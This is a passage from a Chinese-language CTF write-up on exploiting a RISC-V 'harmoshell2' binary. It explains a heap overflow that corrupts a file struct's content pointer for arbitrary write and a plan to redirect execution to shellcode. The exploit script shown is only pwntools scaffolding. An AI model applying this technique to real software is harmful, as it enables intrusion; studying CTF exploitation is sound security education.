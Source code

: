 之后再进行`"echo >> "`操作会直接从`0x26010`开始写，也就是说我们可以控制下一个“文件”的数据结构

```c
struct file{
  char name[0x10];
  char *content;
  int size;
}
```

所以我们可以通过覆盖下一个“文件”结构体中的`content`指针配合echo来进行任意地址写

而栈上的地址都是固定的

![](https://tva1.sinaimg.cn/large/008eGmZEly1gmhfxvwnwtj30q609sjs4.jpg)

由于ROP_gadget以及one_gadget都不支持该架构，所以我的做法是将上题找到的shellcode填充到堆地址中，再任意地址写覆盖返回地址，挟持ip指针跳转到shellcode上

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='harmoshell2'
libc_name='libc-2.27.so'

libc=ELF("./libs/lib/"+libc_name)
e=ELF("./"+binary_name)

if local:
	#p = process(["./qemu-riscv64",'-g','1234', "-L", "./libs", './'+binary_name])
    
	p = process(["./qemu-riscv64", "-L", "./libs", './'+binary_name])
else:
    p=remote('',)



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
      
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))


```